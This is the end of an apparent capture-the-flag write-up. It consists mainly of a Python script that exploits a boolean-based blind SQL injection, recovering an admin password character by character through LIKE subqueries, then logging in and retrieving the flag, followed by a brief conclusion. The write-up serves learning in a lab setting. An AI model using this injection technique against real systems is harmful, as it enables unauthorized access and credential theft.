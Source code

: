 ```py
    print("✅")
else:
    print("❌")
    exit(0)
print("checking true negative...", end="")
if not worked(c.get(target + " and 1=(select id from users where id=2)").text):
    print("✅")
else:
    print("❌")
    exit(0)

password = ""
solved = False

print("solving...")

while not solved:
    for letter in letters:
        print(password + letter, end="\r")
        r = c.get(target + f" and 'admin' = (select role from users where id=1 and password like '{password+letter}%')")
        if worked(r.text):
            password += letter
            break
    else:
        solved=True

print(f"found password: {password}")
print("logging in...")
c.post("/login", data={"name": "admin", "password": password})

print("getting flag...", end="")
r = c.post("/admin/posts/publish")
flag = ""
try:
    flag = "flag" + r.text.split("flag")[1].split("}")[0] + "}"
    print(f"✅: {flag}")
except:
    print("❌")
```

# Conclusion

Overall was this a pretty fun challenge, the mismatch in server code and given code was a bit of a bummer.
